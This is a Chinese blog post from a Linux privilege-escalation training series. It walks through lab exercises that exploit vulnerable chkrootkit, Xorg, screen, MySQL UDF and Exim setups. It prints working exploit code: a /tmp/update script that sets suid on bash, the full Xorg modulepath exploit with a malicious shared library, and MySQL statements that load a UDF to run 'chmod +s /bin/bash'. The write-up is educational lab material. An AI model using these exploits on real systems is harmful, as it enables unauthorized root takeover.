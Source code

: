 #  Linux提权系列14：[训练营] 利用存在漏洞的应用程序进行权限提升   
原创 debugeeker  奶牛安全   2023-04-08 08:14  
  
## 陨落的守护程序  
  
实验开始时，将获得一个低权限 shell，并且没有可疑的 SUID 二进制文件或 sudo 漏洞。当检查进程时，会看到一个脚本正在以 root 用户权限运行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcGiclc9qsX5K679TMibKTf3ryBwAn5I45LByqiacfPQO3G4l3N9jCNnjEg/640?wx_fmt=png "")  
  
因为 当前用户可以读取它，所以可以看到它正在运行一些 rootkitchecker 程序。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcjBMH2C77vzM5qiaY1mA5eQK17iaIfglEEGrYpOIvaw4wGTbFicEYtXpDA/640?wx_fmt=png "")  
  
rootkitchecker 的版本是 0.49，幸运的是它容易受到任意代码执行的攻击。该漏洞于 2014 年报告，分配给此漏洞的 CVE 为 CVE-2014-0476。  
  
漏洞：在 chkrootkit 文件中，slapper 函数没有对文件路径加引号，因此攻击者可以通过 chkrootkit 以 root 用户权限运行命令。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcmbyBLqauXwEPEIyticIYzP1NY3woC6uV2ZyEFtkQV1kejkx2dJLGN1w/640?wx_fmt=png "")  
  
论文建议使用 /tmp/update 脚本，然后向其中添加恶意代码。文件 /tmp/update 将以 root 用户身份执行，因此如果文件中包含恶意内容，则可以有效地获得 root 权限。  
  
可以通过 netcat 获得 root 特权反向连接，但这里在 bash 上设置 suid 位，然后使用 bash -p -i 获得特权 bash  
```
cat > /tmp/update << EOF
#!/bin/bash
chmod +s /bin/bash
touch /tmp/done
EOF
chmod +x /tmp/update

```  
  
现在，等到看到 /tmp/done 文件。它什么都不做，只是用来检查命令是否被执行。  
  
几秒钟后，当命令再次运行时，就可以以 root 用户身份获取 bash 。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcVphFS9j1Sljibicrj4mWxn3fnJyAmp6vGmTnReD5bVcEoboVDQzjlVdA/640?wx_fmt=png "")  
## 利用 X Windows 系统  
  
因此，根据描述，检查易受攻击的显示管理器并利用它已经公开的漏洞。  
  
枚举后会发现系统中安装了Xorg服务器，程序版本为1.19.5  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcfSTW1siaKwVW1tTic3mSUgCTrQ2wiaqjufr749b3C9lNBDsqAsh2UQKJw/640?wx_fmt=png "")  
  
在google上搜索时，发现高版本的Xorg存在两个漏洞。有时，如果有一个小的版本变化，高版本存在的漏洞在低版本中也存在。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcNkGplPMuQgEcrEMdhlzl9v0BylvBhH5u1btJg4Jld7od2K7QhE5kag/640?wx_fmt=png "")  
  
牢记这一点，尝试第一个漏洞利用。exploit 的 CVE 是 CVE-2018-14665。  
  
漏洞：1.20.3 之前的 Xorg-x11-server 不检查权限，允许非特权用户通过物理控制台登录系统以提升权限并以 root 用户权限运行任意命令。有两个易受攻击的攻击向量 -logpath 和 -modulepath。在此，在 Xorg 服务器中执行了库注入。  
  
将利用脚本保存在目标系统上  
```
#!/bin/bash
echo "raptor_xorgy - xorg-x11-server LPE via modulepath switch"
echo "Copyright (c) 2018 Marco Ivaldi <raptor@0xdeadbeef.info>"
echo

# prepare the payload
cat << EOF > /tmp/pwned.c
_init()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
EOF
# libglx.so should be a good target, refer to Xorg logs for other candidates
gcc -fPIC -shared -nostartfiles -w /tmp/pwned.c -o /tmp/libglx.so
if [ $? -ne 0 ]; then echo; echo "error: cannot compile /tmp/pwned.c"; exit; fi

# trigger the bug
echo "Got root?"
Xorg -modulepath ",/tmp" :1

```  
  
给脚本加执行权限并运行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcunicqJgGYn6dZetau05yV3HtrOx2EMVLhuDOCLuZGzsLsXlqnzqrMZA/640?wx_fmt=png "")  
## 超级屏幕  
  
在之前的实验中，利用了一个易受攻击的桌面管理器服务 Xorg。在此，将了解易受攻击的窗口管理器如何导致权限提升。  
  
如果是 Linux 世界的新手并且对窗口管理器和桌面管理器感到困惑。窗口管理器负责管理应用程序窗口，例如：管理最小化状态并允许用户再次最大化窗口或添加处理程序以关闭、最小化和最大化按钮。另一方面，桌面管理器负责整个桌面用户体验，它提供面板、登录欢迎会话、菜单和您在系统中看到的所有内容。详情给https://askubuntu.com/questions/18078/what-is-the-difference-between-a-desktop-environment-and-a-window-manager#20435  
  
在枚举之后发现系统中安装了 screen 并且其版本在文件名称中公开  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTceIyTykgqYuMQruap3K6edKgfrlyU5It3alS8SsIPmG876dMo4OoZtw/640?wx_fmt=png "")  
  
看起来这是一个非常流行的漏洞。在搜索中，找到了该漏洞的第一个链接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcwn600gaXHZicm5qvC0AOkB6HgjsYJSWP53ghEODqSBX4ajodDd9duqg/640?wx_fmt=png "")  
  
此漏洞没有分配 CVE。  
  
漏洞：可以通过启用 setuid 位的screen来滥用 ld.so.preload 覆盖获取root  shell。编译后的库将以 EUID 值为 0 运行，然后可以使用它来调用 setuid 函数并获得 root 特权 shell  
  
下载并执行漏洞脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcowwWhXicUF7qciaLg4mtNZ6nUXhyupVx2ia5icEd9WQiaK5dXqMPdQz4RNQ/640?wx_fmt=png "")  
  
2> /dev/null 的使用是可选的。在这种情况下，使用它来避免在编译共享库时可能出现的回显警告  
## 突破数据库  
  
在本实验中，拥有以 root 用户权限运行的 MySQL 服务，并且提供了登录凭据  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcGEXboAv3k8ld9C3wy6DdrdPGdKxbyu0d8oR93B1GgG75QVzHDOV58w/640?wx_fmt=png "")  
  
通过枚举，发现无法通过 sys_exec 函数执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcAUEVqg6nibicSrXRxJK0RXxdJepibr0icumfCjzwriclcfG2OqGfFsluSmA/640?wx_fmt=png "")  
  
在进一步的枚举中，发现可以将库加载到 MySQL 中并像用户定义的函数一样执行它。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTctLYma1yOibvquDRxIYfvF1BqQ52rFCJxXQ5mqfUHquTZnchIsbIcCXQ/640?wx_fmt=png "")  
  
由于无法写入任何文件或插件目录内, 可以使用以上信息为MySQL编译shellcode。幸运的是，在 exploit-db 上发现了一个漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcic5pI0SUXIGlupFRSpiaMBwD7p9mGP4kichUPWxzeBF9VI7gROxQOPP6A/640?wx_fmt=png "")  
  
下载 udf.c 文件并编译代码  
```
cd /tmp
gcc -g -c udf.c
gcc -g -shared -Wl,-soname,udf.so -o udf.so udf.o -lc

```  
  
现在以  MySQL 的root用户身份登录并使用 load_file 和 dumpfile 将文件 /tmp/udf.so 复制到 @@plugin_dir  
```
create table test(line blob); -- blob will allow us to store binary content
insert into test values(load_file('/tmp/udf.so')); -- here load_file function will read the content of file /tmp/udf.so and assign to line field
select * from test into dumpfile '/usr/lib/i386-linux-gnu/mariadb18/plugin/udf.so'; -- dump the content of row into file in @@plugin_dir
create function do_system returns integer soname 'udf.so'; -- load udf.so form @@plugin_dir and create function do_system
select * from func; -- verify udf function creation
select do_system('id'); -- verify udf function execution
select do_system('chmod +s /bin/bash'); -- add suid bit to /bin/bash

```  
  
评论仅供理解。可以在 MySQL 提示符下执行时省略它  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcwO61zXLIG4GaiaasZia08h2WiardickwZK1TbHIcCABxcuy6IghLEmznHg/640?wx_fmt=png "")  
## 利用消息传输代理  
  
在此，了解到当目标应用程序以 root 权限运行时，用户输入中不正确的校验如何导致系统中的权限升级。  
  
在枚举易受攻击的应用程序时，发现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTckUwWyuDvOQ7cqic2sbiczlMs3ib4zsD5XDibFTX8kKfpfzl9lAzib65KrjQ/640?wx_fmt=png "")  
  
当列出 /usr/exim/bin 的内容时, 发现 Exim 版本是 4.89.2 并且可执行文件设置了 suid 位  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTccZPRiaOq4ImwkicEIoY6kibaYPibgDicoFTPPajDiajC60GVCK3MMzZo62tA/640?wx_fmt=png "")  
  
目标版本容易受到本地提权  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcAnYMoBia45kqYIdpyQ4d1CKe7LmVlwGajvTZcv9iceSrUapSU8jnpHKQ/640?wx_fmt=png "")  
  
该漏洞被分配为 CVE-2019-10149。  
  
漏洞：/src/deliver.c 中的 deliver_message() 函数中收件人地址验证不当可能导致远程命令执行。  
  
按照exploit-db的指示下载并运行漏洞脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QXsgGBUcicbxhekutsxDQQFeKazDwibibTcYDdywnSAUahbibLwdDGWWqwdnqnyXMT0G2wI7hw7E5iaCjdyRuV6mI6w/640?wx_fmt=png "")  
  
  
**请点一下右下角的“在看”，谢谢！！**  
  
****  
**暗号：133219**  
  
